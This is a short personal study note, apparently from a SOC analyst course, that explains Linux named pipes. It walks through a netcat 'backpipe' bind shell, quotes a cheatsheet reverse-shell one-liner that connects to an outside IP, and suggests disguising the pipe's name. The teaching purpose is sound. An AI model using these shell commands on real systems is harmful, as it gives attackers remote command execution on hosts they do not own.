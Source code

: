 ```yaml
---
{"dg-publish":true,"permalink":"/tool-deep-dives/linux/named-pipe/"}
---
```


During the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/BHIS SOCC Notes Overview\|BHIS SOC Analyst Core]] course I took recently, the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-LinuxCLI\|Linux Lab]] had an interesting command where you create a FIFO (First in, First out) "backpipe" with `mknod` (create filesystem node) and `netcat`, effectively creating a shell [[Definitions and Topics/backdoor\|backdoor]] on a [[Tool Deep-Dives/Linux/Linux\|Linux]] system.

```Bash
mknod backpipe p
/bin/bash 0<backpipe | nc -l 2222 1>backpipe
```


Basically, `mknod <string> p` creates a named *pipe* (specified by the `p`) called "backpipe" (though it could functionally be named anything that doesn't conflict with other things; for example in the [[BHIS Antisyphon and Webinars/BlackHills SOC Core/Labs/BHIS-SOCC-lab-tcpdump#Bonus Lab\|tcpdump Bonus Lab]], one could name it *timesync.svc* or something similar to make it less obvious). This *Named Pipe* allows us to pipe an output *from* any location in the shell *to* any location in the shell.
![ThinkingWithPortals.gif|300](/img/user/Attachments/ThinkingWithPortals.gif)

Additionally, `>` and `<` can be used to redirect input in a script; for example, if we ran `./FiscalReport.sh < 2024Q1.csv`, the `FiscalReport` shell script would input the values from `2024Q1.csv`. 

Let's break backpipe command down and see what's going on.
1. `mknod backpipe p`
	1. Creates a named pipe called "backpipe"
2. `/bin/bash 0<backpipe`
	1. `/bin/bash` reads its [[Tool Deep-Dives/Linux/Linux Data Streams\|standard input]] (`stdin`, file descriptor `0`) from the "backpipe"
		2. `backpipe`'s output becomes `/bin/bash`'s input
3. `|`
	1. The output from the prior command is pipe into the following command
4. `nc -l 2222 1>backpipe`
	1. Netcat listens to port *2222* and the [[Tool Deep-Dives/Linux/Linux Data Streams\|standard output]] (`stdout`, file descriptor `1`) is sent into the named pipe "backpipe"

**To summarize,** this forms a loop; *Netcat* listens for data on port *2222*, sends it to the *backpipe*. The *backpipe* sends the output to *Bash*'s input, and *Bash*'s output gets piped to *Netcat*. 


![nyow-youre-thinking-with-portals-e1303609354625.jpg](/img/user/Attachments/nyow-youre-thinking-with-portals-e1303609354625.jpg)

This is a [[Definitions and Topics/Remote Shell\|Reverse Shell]], allowing an attacker to execute shell commands on a remote system.

[Reverse shell cheatsheet](https://saucer-man.com/reverse/) has a similar command, which I've pasted below:

`mknod backpipe p && nc 10.10.10.10 4444 0<backpipe | /bin/bash 1>backpipe`

This is all pretty wild, but what else can we do with a backpipe?




# Sources
[CTID Github: Named Pipes Micro Emulation Plan](https://github.com/center-for-threat-informed-defense/adversary_emulation_library/tree/master/micro_emulation_plans/src/named_pipes)
